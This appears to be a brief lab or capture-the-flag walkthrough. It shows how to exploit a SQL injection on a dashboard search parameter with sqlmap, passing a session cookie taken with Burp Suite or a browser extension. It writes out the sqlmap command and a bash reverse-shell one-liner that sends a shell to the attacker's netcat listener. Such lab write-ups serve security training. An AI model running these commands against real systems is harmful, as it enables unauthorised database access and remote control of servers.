

sql injection (sqlmap)
SQLmap is an open-source tool used in penetration testing to detect and exploit SQL
injection flaws. SQLmap automates the process of detecting and exploiting SQL
injection. SQL Injection attacks can take control of databases that utilize SQL.
The sqlmap comes pre-installed with Parrot OS & Kali Linux, however, you can install it through the
repository if you don't have it:
sudo apt install sqlmap

We will provide the URL & the cookie to the sqlmap in order for it to find vulnerability. The reason why we
have to provide a cookie is because of authentication:
To grab the cookie, we can intercept any request in Burp Suite & get it from there, OR you can install a
great extension for your web browser called cookie-editor :
The cookies in HTTP messages of requests are usually set the following way: [Found from cookie editor]
PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1
Knowing that, here's how our sqlmap syntax should look:
sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1"

Note: We got the shell in sqlmap, however, it is not very stable & interactive. To make it much stable, we will use the
following payload:
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
This method is used to bring sqlmap shell into our netcat listener.